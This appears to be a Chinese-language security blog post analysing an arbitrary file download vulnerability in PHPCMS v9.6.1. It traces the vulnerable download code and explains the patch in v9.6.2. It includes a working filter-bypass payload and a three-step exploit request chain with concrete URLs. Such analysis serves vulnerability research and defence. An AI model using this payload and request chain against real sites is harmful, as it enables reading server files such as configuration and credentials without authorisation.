







# PHPCMSv9.6.1-2 任意文件下载漏洞分析


继上一篇对 PHPCMS V9.6.0 SQL 注入漏洞的分析之后，继续向下审计 modules/content/down.php 时，又发现了一个由 sys_auth 使用方式不当引发的问题，引出了任意文件读取漏洞
# 审计
## v9.6.1
### 代码审计
sys_auth 就不再分析一遍了，详情请看：
https://oct1sec.top/2025/07/29/PHPCMSV9-6-0-SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%AE%A1%E8%AE%A1/
分析漏洞，看 modules/content/down.php::download()，核心漏洞代码如下
download() 方法最终调用了 file_down()，而后者核心是直接通过 readfile()
```
public function download() {
	file_down($fileurl, $filename);
	// phpcms 自己实现的方法，提供文件下载功能
		  => #phpcms/libs/functions/global.func.php
			function file_down($filepath, $filename = '') {  
			    if(!$filename) $filename = basename($filepath);  
			    if(is_ie()) $filename = rawurlencode($filename);  
			    $filetype = fileext($filename);  
			    $filesize = sprintf("%u", filesize($filepath));  
			    if(ob_get_length() !== false) @ob_end_clean();  
			    header('Pragma: public');  
			    header('Last-Modified: '.gmdate('D, d M Y H:i:s') . ' GMT');  
			    header('Cache-Control: no-store, no-cache, must-revalidate');  
			    header('Cache-Control: pre-check=0, post-check=0, max-age=0');  
			    header('Content-Transfer-Encoding: binary');  
			    header('Content-Encoding: none');  
			    header('Content-type: '.$filetype);  
			    header('Content-Disposition: attachment; filename="'.$filename.'"');  
			    header('Content-length: '.$filesize);  
			    readfile($filepath);  
			    //关键在这，一个PHP内置方法，readfile是将文件内容直接发送到输出缓冲区，也就是说文件内容在返回包中直接能看到，因为返回携带数据，在前端也会弹出下载的功能
			    //同时readfile读取文件的路径是项目根目录，可以使用 getpwd()测试一下
			    exit;  
			}
```
可以看到这里 file_down() -> readfile()，提供了文件下载，这是一个非常危险的功能！我检查这个功能是否在安全的代码中使用
对整段代码进行参数追踪，主要追踪 $fileurl、$filename 的变化：$fileurl 首先由 $f 赋值，然后和 $s 拼接在一起形成完整的 $fileurl；而 $filename 则取自 $fileurl 的后缀名，并和随机数拼接形成新的文件名
```
public function download() {
	$a_k = trim($_GET['a_k']);
	$pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');
	$a_k = sys_auth($a_k, 'DECODE', $pc_auth_key);
	if(empty($a_k)) showmessage(L('illegal_parameters'));
	unset($i,$m,$f,$t,$ip);
	$a_k = safe_replace($a_k);
	parse_str($a_k);		
	...
	
	$fileurl = trim($f);
	//从 $f 中获取 fileurl
	...
	if($m) $fileurl = trim($s).trim($fileurl);
	//将 $s 与 $fileurl 拼接成新的路径
	...
	
	if(strpos($fileurl, ':/') && (strpos($fileurl, pc_base::load_config('system','upload_url')) === false)) { 
		header("Location: $fileurl");
	} else {
		if($d == 0) {
			header("Location: ".$fileurl);
		} else {
			$fileurl = str_replace(array(pc_base::load_config('system','upload_url'),'/'), array(pc_base::load_config('system','upload_path'),DIRECTORY_SEPARATOR), $fileurl);
			$filename = basename($fileurl);
			//获取 fileurl 的文件名部分
			$ext = fileext($filename);
			//获取 filename 的小数点部分，即后缀名
			$filename = date('Ymd_his').random(3).'.'.$ext;
			//随机数与后缀名结合形成新的文件名
			$fileurl = str_replace(array('<','>'), '',$fileurl);
			file_down($fileurl, $filename);
		}
	}
}
```
再看过滤机制：这个正则检索 $f 是否存在黑名单内的关键词，且不允许出现 `:\\ ..`
```
//正则筛选php、php3等关键词，但可以被绕过
if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$f) || strpos($f, ":\\")!==FALSE || strpos($f,'..')!==FALSE) 
showmessage(L('url_error'));  
$fileurl = trim($f);
```
拼接形成完整路径后再次正则检查黑名单后缀名
```
if($m) $fileurl = trim($s).trim($fileurl);  //拼接后再次正则黑名单检测
if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$fileurl) ) showmessage(L('url_error'));  
```
最后替换掉路径中的 <> 这两个字符，过滤结束
```
$fileurl = str_replace(array(pc_base::load_config('system','upload_url'),'/'), array(pc_base::load_config('system','upload_path'),DIRECTORY_SEPARATOR), $fileurl);  //仅替换 fileurl 内的指定字符串，对漏洞不影响
...
$fileurl = str_replace(array('<','>'), '',$fileurl);  
//替换 fileurl 中 <> 为空
file_down($fileurl, $filename);
```
readfile($filepath); 最终下载的文件是 $filepath，而 $filepath 即传入的 $fileurl，那么无需再看 $filename 的变化，因为不影响文件下载功能，只用考虑 $fileurl 在程序中能否绕过过滤得到正确的路径即可
假如 $f = index，$s = .p<hp，正则匹配 php，拼接完之后 $fileurl=index.p<hp，这样两次正则都绕过了，最后 str_replace 替换把 < 替换为空，刚好得到完整的路径 index.php
最后入口点，$a_k 可控，parse_str() 注册变量使得 $f、$s 都可以覆盖为我们的 Payload
```
$a_k = trim($_GET['a_k']);  
$pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');  
$a_k = sys_auth($a_k, 'DECODE', $pc_auth_key);  
if(empty($a_k)) showmessage(L('illegal_parameters'));  
unset($i,$m,$f,$t,$ip);  
$a_k = safe_replace($a_k);  
parse_str($a_k);
//这里有没有很熟悉，和上篇 SQL 注入的实现方法几乎一致
```
但这里 sys_auth 密钥不再是默认密钥了，而是特定的 $pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down'); 
显然这里不能单单依靠 attachments.php::swfupload_json() 获取加密字符串，swfupload_json() 类方法使用的还是默认密钥
看 down.php::init() 76-84 行
```
public function init() {
	if(strpos($f, 'http://') !== FALSE || strpos($f, 'ftp://') !== FALSE || strpos($f, '://') === FALSE) {  
	    $pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');  
	    $a_k = urlencode(sys_auth("i=$i&d=$d&s=$s&t=".SYS_TIME."&ip=".ip()."&m=".$m."&f=$f&modelid=".$modelid, 'ENCODE', $pc_auth_key));  
	    $downurl = '?m=content&c=down&a=download&a_k='.$a_k;  
	} else {  
	    $downurl = $f;         
	}  
	include template('content','download');
		
```
phpcms 项目中只有这里密钥能符合，这里加密完后拼接进 $a_k 然后赋值给 $downurl，加密字符串就存放在 $downurl 中。那么问题来了，如何拿到 $downurl？
看最后的模板类方法 template()
```
include template('content','download');
function template($module = 'content', $template = 'index', $style = '') {
	  =>
		if(strpos($module, 'plugin/')!== false) {
		}
		if(!empty($style) && preg_match('/([a-z0-9\-_]+)/is',$style)) {
		} elseif (empty($style) && !defined('STYLE')) {
			if(defined('SITEID')) {
			} else {
			}
			if(!empty($siteid)) {
			}
		} elseif (empty($style) && defined('STYLE')) {
		} else {
		}
		$compiledtplfile = PHPCMS_PATH.'caches'.DIRECTORY_SEPARATOR.'caches_template'.DIRECTORY_SEPARATOR.$style.DIRECTORY_SEPARATOR.$module.DIRECTORY_SEPARATOR.$template.'.php';
		//定义模板文件路径
		...
		return $compiledtplfile;
		//返回视图到前端
}
```
init() 执行的末尾调用了模板引擎，template() 会返回模板文件 caches/caches_template/default/content/download.php
文件内容中赫然是 echo $downurl!

攻击链已完整：先把 Payload 给 attachments.php::swfupload_json() 从而获取默认密钥加密后的字符串，然后发给 down.php::init()，上篇文章分析过，init() 的开头也调用了 sys_auth，能解密默认密钥的字符串，然后返回的模板文件中得到带有特定密钥加密后的字符串，最后发给 down,php::download，触发任意文件下载漏洞
最后是绕过，需要将每一个加解密、safe_replace 都考虑到，才能保证 Payload 到最后是 index.php
Payload 在程序中一共经历三次 safe_replace
```
//phpcms/libs/functions/global.func.php
function safe_replace($string) {  
    $string = str_replace('%20','',$string);  
    $string = str_replace('%27','',$string);  
    $string = str_replace('%2527','',$string);  
    $string = str_replace('*','',$string);  
    $string = str_replace('"','&quot;',$string);  
    $string = str_replace("'",'',$string);  
    $string = str_replace('"','',$string);  
    $string = str_replace(';','',$string);  
    $string = str_replace('<','&lt;',$string);  
    $string = str_replace('>','&gt;',$string);  
    $string = str_replace("{",'',$string);  
    $string = str_replace('}','',$string);  
    $string = str_replace('\\','',$string);  
    return $string;  
}
```
这个过滤没起到正确的效果，通过 *、%20 夹在 index.p(这里)hp 中的方式，绕过后面 down.php::download() 的黑名单
具体过程如下
```
Payload：p%3%2*520Chp (另一种为p%3%25252%2*70Chp，被替换的次数更多，我自己编的更简单)
1. 浏览器URLDecode：index.p%3%2*520Chp
2. attachments.php::swfupload_json()  241行 safe_replace：index.p%3%2520Chp
3. down.php::init() 17行 safe_replace：index.p%3%2520Chp
4. down.php::init() 18行 parse_str：index.p%3%2520Chp
5. down.php::download() 93行 safe_replace：index.p%3%20Chp
6. down.php::download() 94行 parse_str：index.p%3Chp
7. down.php::download() 126行 str_replace：index.p<hp
```
### 漏洞验证
先登录会员中心，拿到 userid，然后向 attachments::swfupload_json() 发包
```
/index.php?m=attachment&c=attachments&a=swfupload_json&src=%26d%3D1%26catid%3D1%26i%3D1%26m%3D1%26modelid%3D1%26s%3Dindex%26f%3D.p%3%2*520Chp
```

拿到 att_json 后向 down.php::init 发包

```
/index?m=content&c=down&a=init&a_k=3d5akZ8EgKHLWdpKWXCXywu9lBZxuH2lU82M9GCa0KDpnwB1DRgjOPg6Hw_e8vsyLZXPlfjTktnmq6vcc94ylMlECv0clp7J9Cx5TZfJYE2Ksl4AEn8O86fYJSYuHH5jwad9ZVkQqli7xqsAuvzA_th8
```

拿到加密字符串后向 down.php::download 发包,，完成任意文件读取漏洞利用
```
/index.php?m=content&c=down&a=download&a_k=b34foiNn9-b0XL_RQFoQVn4d39BkMef_ou81PHlAjk0j9IThtOW1NrCBgC1BDx6qW1W80WZleWvUpJvu5MhwyVqnMGyor5pFmm3qBZvRfXI1D2p6ey8gs_mdzwB6jbjPc6n9SPO2
```


## v9.6.2
v9.6.2 据网上是说仍有绕过方法，但实际测试发现不行，也许和 win11 的解析有关，漏洞是几年前的，现在 windows 更新了导致无法绕过（猜测，因为绕过失败了）
官方修复点
attachments::upload_json 去掉了 safe_replace

修复方式简单粗暴，在 file_down 和 str_replace 中间又加了一次黑名单校验


# 坑点
逻辑理清楚就比较简单，但在似懂非懂时就很难受。这个绕过 Payload 测了我一个下午，就想不通 Payload 在传递时为什么会出现非预期的状况（也许是脑子生锈了），下面说一下坑点

坑点一，parse_str 是会默认自动进行 URL 解码，这是它的内置行为，当时不了解，写出来和预期不符合，找不到问题，调试后发现是 parse_str 这里自动解码了，所以还得考虑这个函数的解码影响

坑点二，Cookie 中设置的 att_json 会默认留存，这会影响程序运行，在 swfupload_json() 中有这样一串代码，静态调用 param 类的类方法 get_cookie() 并赋值给 $att_arr_exist

跟进看看
get_cookie 的功能一目了然，获取 Cookie 中 att_json 的值并返回，随后会将 $att_arr_exist 与 $json_str 拼接，如果测试时 Cookie 中 att_json 设置的是上一次错误的 Payload，那么下一次调试时 parse_str 注册的变量就是上一次的 Payload，改进后的 Payload 因为 $json_str 在后的原因被覆盖掉了
```
//phpcms/libs/classes/param.class.php
public static function get_cookie($var, $default = '') {  
    $var = pc_base::load_config('system','cookie_pre').$var;  
    $value = isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default;  
    if(in_array($var,array('_userid','userid','siteid','_groupid','_roleid'))) {  
       $value = intval($value);  
    } elseif(in_array($var,array('_username','username','_nickname','admin_username','sys_lang'))) { //  site_model auth  
       $value = safe_replace($value);  
    }  
    return $value;  
}
```


PS.多读多练，一位友人去年拿过 Dedecms 的 CVE，实名羡慕，梦想也独立挖一个开源 CMS 的 CVE


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/phpcmsv9-6-1-2-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/  

